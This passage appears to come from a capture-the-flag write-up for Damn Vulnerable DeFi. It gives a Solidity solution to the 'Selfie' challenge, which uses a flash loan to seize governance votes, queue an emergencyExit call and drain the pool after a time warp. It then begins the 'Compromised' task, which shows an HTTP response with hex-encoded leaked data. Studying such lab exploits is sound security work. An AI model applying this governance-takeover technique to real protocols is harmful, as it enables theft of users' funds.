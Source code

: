   ```solidity
        returns (bytes32)
    {
        DVT.delegate(address(this));
        governance.queueAction(address(pool), 0, data);
        DVT.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function _executeActionDuringFlashLoan() internal {}
}

function test_selfie() public checkSolvedByPlayer {
    FlashLoanReceiver reciever = new FlashLoanReceiver(pool, token, governance);
    bytes memory EmergencyExitCallData = abi.encodeWithSignature(
            "emergencyExit(address)", 
            recovery
    );    
    pool.flashLoan(reciever, address(token), TOKENS_IN_POOL, EmergencyExitCallData);

    vm.warp(block.timestamp + 3 days);
    governance.executeAction(1); 
}


  ```
</details>

---
###  Compromised

#### Task: 

While poking around a web service of one of the most popular DeFi projects in the space, you get a strange response from the server. Here’s a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at 999 ETH each.
